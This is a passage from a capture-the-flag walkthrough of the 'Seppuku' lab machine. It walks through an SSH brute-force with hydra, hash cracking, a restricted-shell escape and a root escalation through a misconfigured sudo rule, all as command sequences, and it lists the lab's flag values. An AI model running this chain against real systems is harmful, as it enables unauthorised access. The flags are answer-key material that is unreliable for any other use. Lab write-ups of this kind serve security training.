

> ✅ Successfully pivoted to `samurai`.
>
> Also visible: `/home/tanto/.ssh/` contains `authorized_keys` and `id_rsa.pub` — confirms the RSA key from `/keys/private` belongs to `tanto`.

### 7.3 Check Samurai's Sudo Permissions

```bash
samurai@seppuku:/$ sudo -l
```



```
User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

> 🎯 **Privilege Escalation Vector:**
>
> `samurai` can run `/home/tanto/.cgi_bin/bin` as **root with NO password**, passing any `/tmp/*` file as argument.
> The path does not exist yet — but `tanto` owns `/home/tanto/` and can create it!

---

## 8. Privilege Escalation — Root via Sudo Misconfiguration

### 8.1 Login as tanto & Create Malicious Binary

```bash
# From attacker machine
ssh -i id_rsa tanto@192.168.197.90

# Bypass rbash
python3 -c 'import os; os.system("/bin/bash")'

# Create the exploit binary
mkdir -p /home/tanto/.cgi_bin
echo '/bin/bash' > /home/tanto/.cgi_bin/bin
chmod +x /home/tanto/.cgi_bin/bin
touch /tmp/exploit

# Attempt sudo from tanto — FAILS (tanto has no sudo rule)
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/exploit
# [sudo] password for tanto: (x3 — 3 incorrect password attempts)
```



> ⚠️ sudo from `tanto` fails — the NOPASSWD rule belongs to **samurai** only.

### 8.2 Execute from Samurai — Get Root

Back in the `samurai` shell:

```bash
samurai@seppuku:/$ sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/exploit
```



```
root@seppuku:/# cd root
root@seppuku:~# cat proof.txt
fa0d1793bba5188a4faea87422872923
```

> 🚩 **Proof Flag (proof.txt):** `fa0d1793bba5188a4faea87422872923`

---

## 9. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| Local Flag | `/home/seppuku/local.txt` | `47ca5decf4c77445da03316810898958` |
| Proof Flag | `/root/proof.txt` | `fa0d1793bba5188a4faea87422872923` |

---

## 10. Attack Chain Summary

```
[1]  nmap -Pn -p- --min-rate 5000 192.168.197.90
         → Open: 21, 22, 80, 139, 445, 7080, 7601, 8088

[2]  nmap -sC -sV -A -Pn -p 21,22,80,139,445,7080,7601,8088 192.168.197.90
         → vsftpd 3.0.3 | OpenSSH 7.9p1 | nginx 401 | Samba 4.9.5
         → Apache 2.4.38 on 7601 | LiteSpeed on 8088
         → SMB hostname: SEPPUKU

[3]  smbclient -L //192.168.197.90 -N
         → Only print$ and IPC$ — no useful shares

[4]  ftp 192.168.197.90 (anonymous) → 530 Login incorrect

[5]  Browse http://192.168.197.90 → 401 Unauthorized (nginx Basic Auth)

[6]  gobuster on port 7601
         → /secret, /keys, /production, /database, /stg discovered

[7]  gobuster on port 8088
         → /cgi-bin, /docs, /blocked (nothing exploitable)

[8]  http://192.168.197.90:7601/production/ → static page, dead end

[9]  http://192.168.197.90:7601/secret/ → directory listing:
         hostname, jack.jpg, passwd.bak, password.lst, shadow.bak

[10] /secret/hostname → "seppuku" (username confirmed)

[11] /secret/passwd.bak → full /etc/passwd leaked
         → rabbit-hole:x:1001:1001:/home/rabbit-hole:/bin/bash

[12] /secret/shadow.bak → r@bbit-hole SHA-512 hash
         → john: r@bbit-hole:a1b2c3 (cracked — SSH fails due to @ in name)

[13] /secret/password.lst → saved as password.txt (100+ passwords)

[14] /keys/private → RSA private key
         → curl id_rsa && chmod 600 id_rsa

[15] echo -e "seppuku\nrabbit-hole" > username.txt
         hydra -L username.txt -P password.txt ssh://192.168.197.90 -t 4 -V
         → seppuku:eeyoree ✓

[16] ssh seppuku@192.168.197.90 (eeyoree)
         → cat local.txt: 47ca5decf4c77445da03316810898958 ✓

[17] ls -la → .passwd (root-owned, world-readable)
         cat .passwd → 12345685213456!@!@A

[18] python3 -c 'import os; os.system("/bin/bash")' → bypass rbash

[19] cd /home → samurai, seppuku, tanto
         su samurai (Password: 12345685213456!@!@A) ✓

[20] cd /home/tanto/.ssh → authorized_keys, id_rsa.pub
         (confirms /keys/private = tanto's RSA key)

[21] sudo -l (as samurai)
         → (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*

[22] ssh -i id_rsa tanto@192.168.197.90 → login as tanto
         python3 bypass rbash
         mkdir -p /home/tanto/.cgi_bin
         echo '/bin/bash' > /home/tanto/.cgi_bin/bin
         chmod +x /home/tanto/.cgi_bin/bin
         touch /tmp/exploit
         (sudo from tanto FAILS — no rule for tanto)

[23] Back as samurai:
         sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/exploit
         → root@seppuku:/# ✓

[24] cat /root/proof.txt → fa0d1793bba5188a4faea87422872923 ✓
```

---

## 11. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Full-port scan and service version fingerprinting |
| `smbclient` | Anonymous SMB share enumeration |
| `ftp` | Anonymous FTP login attempt |
| Firefox | Web browsing, directory listing, file content |
| `gobuster` | Directory brute-force on ports 7601 and 8088 |
| `curl` | Downloading sensitive files from exposed directories |
| `john` | SHA-512 hash cracking (`r@bbit-hole` → `a1b2c3`) |
| `hydra` | SSH credential brute-force (`seppuku:eeyoree`) |
| `ssh` | Remote shell (seppuku password-based, tanto RSA key-based) |
| `python3` | rbash restricted shell escape |
| `sudo` | Execute malicious binary as root for privilege escalation |

---

*End of Walkthrough*
